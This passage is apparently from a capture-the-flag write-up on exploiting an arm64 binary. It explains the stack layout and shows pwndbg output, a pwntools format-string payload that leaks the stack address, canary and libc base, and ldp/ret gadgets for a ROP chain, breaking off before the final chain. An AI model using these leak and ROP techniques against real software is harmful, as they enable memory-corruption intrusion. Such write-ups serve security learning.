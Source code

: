 - When calling functions, the arm64 architecture requires the first four arguments to be placed in `x0`, `x1`, `x2`, and `x3` respectively. Any additional arguments beyond the first four are placed on the stack.
- The stack layout includes, in order, the stack address, return values, local variables, canary, the stack address of the next function, and the return address of the next function.

```c
pwndbg> stack
00:0000│ x29 sp 0xffffe7f7bcd0 —▸ 0xffffe7f7bd50 —▸ 0xffffe7f7bd70 —▸ 0xffffe7f7be80 ◂— 0x0
01:0008│        0xffffe7f7bcd8 —▸ 0x4009d8 (main+176) // cur ret addr (hard to be changed by stack overflow)
02:0010│ x0     0xffffe7f7bce0 ◂— 0xdeadbeef
// ...
0f:0078│        0xffffe7f7bd48 ◂— 0x5992bd6412bc0300 // canary
10:0080│        0xffffe7f7bd50 —▸ 0xffffe7f7bd70 —▸ 0xffffe7f7be80 ◂— 0x0
11:0088│        0xffffe7f7bd58 —▸ 0xffffa5ea73fc // next ret addr (our target)
// ...
```

![[static/b01lers-wp-fig4.png]]
#### Exploitation

For exploitation, the approach can be based on the previous ideas:

1. Format string leak:

```python
io.recvuntil(
    b"Wow, you may now purchase an appendage!\tCould we have an address to ship said appendage? "
)
input("debug")
io.sendline(b"%8$p.%15$p.%21$p.")

io.recvuntil(b"Thanks, we will ship to: ")
stack_base = int(io.recvuntil(b".", drop=True), 16)
canary = int(io.recvuntil(b".", drop=True), 16)
libc_base = int(io.recvuntil(b".", drop=True), 16) - 0x274CC
```

2. Completing ROP with a stack overflow, where constructing the ROP chain also troubled me for a while since the lack of a `pop` instruction felt quite uncomfortable. However, there are always enough gadgets in libc. The following statement can be used to set up the registers:

```z80
ldp x19, x20, [sp, #0x10] ; x19 in sp+0x10, x20 in sp+0x18
ldp x21, x22, [sp, #0x20] ; x21 in sp+0x20, x22 in sp+0x28
ldp x23, x24, [sp, #0x30] ; same
ldp x29, x30, [sp], #0x40 ; x29 in sp+0x00, x30 in sp+0x08
						  ; after that, sp += 0x40
ret                       ; ret to x30
```

3. Finally, there're gadgets for calling one reg with args in another reg. In my case, I got this one:
